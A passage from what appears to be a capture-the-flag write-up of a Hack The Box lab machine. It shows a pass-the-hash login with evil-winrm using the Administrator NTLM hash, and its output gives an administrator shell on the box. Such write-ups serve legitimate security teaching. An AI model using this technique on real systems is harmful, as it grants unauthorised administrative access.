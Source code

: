 With the administrators hash in hand, we can pass the hash for a free shell as root!

```
ruby ~/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u Administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6     

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

